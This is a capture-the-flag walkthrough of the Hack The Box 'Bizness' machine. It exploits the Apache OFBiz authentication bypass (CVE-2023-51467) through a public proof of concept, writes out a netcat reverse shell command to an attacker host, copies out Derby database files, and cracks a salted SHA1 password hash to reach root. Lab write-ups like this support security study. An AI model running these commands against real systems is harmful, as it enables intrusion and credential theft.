







## Enumeration

We start with a classic <kbd>`nmap`</kbd> scan: 

```bash
mkdir nmap
sudo nmap -sC -sV 10.10.11.252 -oA nmap/bizness
```



We have 3 ports open. The common 80 `HTTP` port redirects to a SSL encrypted `HTTPS` port 443.
The port 22 has an outdated version of `OpenSSH` running but no publicly known vulnerabilities that jump out.

### Website

If we visit the IP of the host we get redirected to `https://bizness.htb/`. 
We add that domain to our `/etc/hosts` and visit the site again.
We find a simple site built with standard technologies.
`Whatweb` doesn't show if this is a `PHP` or `NodeJS` or maybe a `Python` site.
I then proceeded to enumerate the directories so I ran  
<kbd>`feroxbuster`</kbd> but because of it's speed the site kept crashing so I just 
ended up using <kbd>`gobuster`</kbd>: 

```bash
gobuster dir -u https://bizness.htb/ -k -w /opt/SecLists/Discovery/Web-Content/raft-medium-directories.txt -b 302
```

The `-b 302` flag is there because if we just try to visit a random endpoint we get redirected to the main page, so we have to filter by redirects not by `404` HTTP responses. 
But even with this we get a few false positives.



This is the result. We only have one directory present and that is `/control`. 
Others are false positives. If we visit this website we find this.



So we see the site is using `Apache OFBiz` framework.
From the Github description we see that this is: 

`OFBiz is an Enterprise Resource Planning (ERP) System written in Java and houses a large set of libraries, entities, services and features to run all aspects of your business.`

The site is giving us this error message: `org.apache.ofbiz.webapp.control.RequestHandlerException: Unknown request [null]; this request does not exist or cannot be called directly.`. 

Searching this error we find that there is a `Authentication Bypass` CVE that is currently being exploited. 

I also decided to run a new <kbd>`feroxbuster`</kbd> scan and just reduce the number of threads to slow down the execution.

```bash
feroxbuster -u https://bizness.htb/ -t 10
```


I find that <kbd>`feroxbuster`</kbd> is much more effective at finding correct results 
as <kbd>`gobuster`</kbd> didn't find the `/catalog` endpoint which points us to the 
login page at `https://bizness.htb/catalog/control/main`.



At the bottom right we can see the `Apache OFBiz` version which is `18.12`. This version is vulnerable to the `Authentication Bypass` I mentioned earlier. The complete explanation of this bypass can be found [here](https://threatprotect.qualys.com/2023/12/27/apache-ofbiz-authentication-bypass-vulnerability-cve-2023-51467/).

### Authentication Bypass

If we read the CVE we find out that we can bypass the authentication control and use website tools provided with `Apache OFBiz`.
To try out this exploit we can visit the:

```
https://bizness.htb/webtools/control/ping?USERNAME=&PASSWORD=&requirePasswordChange=Y
```  

as is described in the CVE. If we get result `PONG` printed this means this is exploitable. 
And we can see this site is vulnerable.


So how to proceed with this exploit? What else can we do beside pinging?

First I searched for some clues and found this [demo app](https://demo-stable.ofbiz.apache.org/webtools/control/ProgramExport) of `Apache OFBiz`.
The default credentials are provided and we can play with it.
If there was no other way we could download our own version and set it up.
In here I found this part of the website: 


It looks like we can execute Groovy code.
So I intercepted this request when we hit run to see how it is formed.



So it looks like we just have to send a POST request to `/webtools/control/ProgramExport` 
add `?USERNAME=&PASSWORD=&requirePasswordChange=Y` to use the authentication bypass 
that we talked about earlier and use a reverse shell or some command inside the data sent. 

So after playing with this for a little bit, trying to get it to work I gave up as this 
just didn't execute and all I was getting was an error message. 
But after reading the report I linked earlier I found there is another interesting endpoint:

`/webtools/control/xmlrpc?USERNAME=&PASSWORD=&requirePasswordChange=Y` 

There is another vulnerability that was discovered by researchers after the 
authentication bypass which includes this endpoint. 
This vulnerability is more complex so I just ended up searching for a public proof 
of concept and found [this](https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass).

We just run:

```bash
python3 exploit.py --url https://bizness.htb
```

to see if the host is vulnerable which we checked by hand earlier. 
Then we can simply run commands with the `--cmd` flag. 
So I ran a reverse shell:

```bash
nc -e /bin/bash 10.10.15.0 3001
``` 

to get a reverse shell. I had quite a few problems because the server was unstable.

## Getting a foothold and escalating privileges

So first I tried to get a stable shell with:

```bash
python3 -c 'impoty pty;pty.spawn("/bin/bash");' 
# control z to background
stty raw -echo # on our system
```

trick and had a few problems because my shell kept crashing. 
When I finally got a stable shell I decided to upload my public key and add it to  
`~/.ssh/authorized_keys` so I can just SSH in. 

Then I started exploring. 

The application directory from where it was installed is in `/opt/ofbiz`. 

I found a couple passwords. 
First in the `/opt/ofbiz/docker/examples/postgres-demo` directory. 
I found a `postgres.env` file which had this password  

`POSTGRES_PASSWORD="20wganpfDASBtBXY7GQ6`    


It lead to nowhere...  
Then I found an `ofbiz-postgres.env` file which had these passwords: 

```
OFBIZ_POSTGRES_OFBIZ_DB=ofbizmaindb
OFBIZ_POSTGRES_OFBIZ_USER=ofbiz
OFBIZ_POSTGRES_OFBIZ_PASSWORD="Ab6SqDD2YM2lmEsvao-"

OFBIZ_POSTGRES_OLAP_DB=ofbizolapdb
OFBIZ_POSTGRES_OLAP_USER=ofbizolap
OFBIZ_POSTGRES_OLAP_PASSWORD="P7TFUtQHSuvha8gSxMME"

OFBIZ_POSTGRES_TENANT_DB=ofbiztenantdb
OFBIZ_POSTGRES_TENANT_USER=ofbiztenant
OFBIZ_POSTGRES_TENANT_PASSWORD="4oXET73QGriblUejjbvR"
```

These also lead to nowhere and are probably just examples as discerned from the directory structure.

In the `/opt/ofbiz/runtime/data` we find that a `Apache Derby` database is probably being used. 
So I just download the whole `data` directory with:

```bash
tar -cvf data.tar data/
gzip data.tar
``` 

and then <kbd>`gzip`</kbd>. 
Then I run a Python HTTP server and download it with <kbd>`wget`</kbd>.

On my local machine I had to install the derby toolkit with 

```bash
apt install derby-tools
```

which is the package I found in the repositories. 
First I played with the server a bit, starting it with:

```bash
derbyctl start -h localhost -p 3333
```

And tried connecting to it with the <kbd>`ij`</kbd> tool. 
But then I figured out I can just connect to the database with <kbd>`ij`</kbd> by doing:

```bash
connect "jdbc:derby:/path/to/database/file";
``` 

in our case that is the `data` directory we
downloaded and the three databases which are included are inside `/data/derby` 
and are called `ofbiz`, `ofbizolap` and `ofbiztenant`.

I first connected to the `ofbiz`  (we can use `MYSQL` syntax when querying the database).
I searched for the all the tables and found a couple. 
Of interest were `SYS.SYSUSERS` and tables `OFBIZ.USER_LOGIN`, `OFBIZ.USER_LOGIN_HISTORY`, etc.

In the `OFBIZ.USER_LOGIN` I found this hash:



### Cracking the root hash

It was in a weird format and I was struggling quite a bit. 
I searched inside the target `/opt/ofbiz/framework/security/config/security.properties` 
and found these settings:


So it's probably using `SHA1` even tho the bottom setting confused me. 
So I searched the [documentation](https://nightlies.apache.org/ofbiz/stable/javadoc/org/apache/ofbiz/base/crypto/HashCrypt.html) 
to find the [code](https://github.com/apache/ofbiz/blob/trunk/framework/base/src/main/java/org/apache/ofbiz/base/crypto/HashCrypt.java) that builds the hash.
From the bottom picture of the code we can see the hash is built like this:

<kbd>`$SHA$`</kbd> - denotes the hash type

<kbd>`d$`</kbd> - this is the salt

<kbd>`uP0_QaVBpDWFeo8-dRzDqRwXQ2I`</kbd> - this is a `Base64` encoded URL Safe string. (second picture)




Then I found the documentation for `Base64.encodeBase64URLSafeString`.


We can see that this URL safe variant emits `-` and `_` instead of `+` and `/` characters.
So I used [CyberChef](https://cyberchef.org/) to decode it and then convert it to hex.
I converted it to hex because we can then simply use <kbd>`hashcat`</kbd> and crack it as 
a normal `SHA1` hash. 


So then I used used this decoded hash and put it in the right format as per <kbd>`hashcat`</kbd>
[examples](https://hashcat.net/wiki/doku.php?id=example_hashes) for `SHA1`. 

`hash:salt` is the format so the end result is `b8fd3f41a541a435857a8f3e751cc3a91c174362:d`.

Then I ran <kbd>`hashcat`</kbd>: 

```bash
hashcat -m 120 hash-converted /usr/share/wordlists/rockyou.txt
``` 


We have a match!

I ended up using the authentication bypass to get another shell and tried it with `su` and we get root. 
<kbd>`Pwned!`</kbd>
